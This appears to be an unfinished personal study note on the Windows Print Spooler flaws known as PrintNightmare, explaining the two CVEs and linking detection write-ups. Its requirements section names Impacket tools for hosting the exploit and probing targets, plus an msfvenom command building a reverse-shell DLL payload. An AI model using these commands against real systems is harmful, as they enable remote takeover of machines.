 
# PrintNightmare


Microsoft described this vulnerability: *A remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights".*

A Print Spooler Service is one of many [[Windows-Services]]. It is defined by Microsoft as: *"The [print spooler](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_c6bde257-38a5-43bb-8d0e-204e226b3655) service is a service that is running on each computer that participates in the Print Services system. The print spooler service implements the [print client](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_3b2da3d1-c159-4399-a6dd-dfd5f76fa2f5) and [print server](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_59fb3ddc-63cf-45df-8a90-46a6af9e00cb) roles, by enabling each participating system to act as a print client, administrative client, or print server for the Print Services system."*

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) and [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) are related to each other, but differ regardless of being categorized as **Windows Print Spooler Remote Code Execution Vulnerability**.

As [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) states in the FAQ, the PrintNightmare (CVE-2021-34527) vulnerability "_is similar but distinct from the vulnerability that is assigned CVE-2021-1675._ _The attack vector is different as well."_

What did Microsoft mean by the attack vector? To answer this question, let's look into the differences between the two vulnerabilities and append the timeline of events. 

Per [Microsoft's](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) definition, PrintNightmare vulnerability is _"a remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could **run arbitrary code** with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights."._

It is impactful and CVE Score of 8 for both, made more so by public PoC, Print Spooler is enabled by DEFAULT on DC with SYSTEM privileges and can be used over a network.

#### READ!!!

- Will be done in the next two weeks! Thank you for patience 

-   [PrintNightmare Network Analysis | JUMPSEC LABS](https://labs.jumpsec.com/printnightmare-network-analysis/)
-   [From Lares Labs: Detection & Remediation Information for CVE-2021-1675 & CVE-2021-34527](https://github.com/LaresLLC/CVE-2021-1675)
-   [PrintNightmare (CVE-2021-1675 and CVE 2021-34527) Explained](https://www.blumira.com/cve-2021-1675/)


#### Requirements

To exploit the CVE-2021-1675 vulnerability requires:
- Direct or local access to the machine to use a malicious DLL file to escalate privileges.
To exploit the CVE-2021-34527 vulnerability requires:
- Connection to remotely inject the malicious DLL file.

Tools like:
- [[Impacket-Cheatsheet]]
	- `smbserver` to host exploit 
	- `rpcdump @$ip | egrep 'MSPRN|MS-PAR'` to test if target `$ip` is vulnerable
- [THM version of CVE-2021-1675](https://github.com/tryhackme/CVE-2021-1675) and [THM version of Impacket](https://github.com/tryhackme/impacket.git) - here for compatibility and highlight some of my sources.
- Payload - Beacon or Reverse Shell
```ruby
# MSFvenom payload are commonly signatured by AV and EDR
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
```




## References

[Print spooler Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_c6bde257-38a5-43bb-8d0e-204e226b3655)  
[Print client Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_3b2da3d1-c159-4399-a6dd-dfd5f76fa2f5) 
[Print server Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_59fb3ddc-63cf-45df-8a90-46a6af9e00cb) 
[CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) 
[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
[Microsoft's PrintNightmare Definition](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) 
[Microsoft's description of CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) 
[THM PrintNight Room 1 - Learn the Vulberability](https://tryhackme.com/room/printnightmarehpzqlp8)
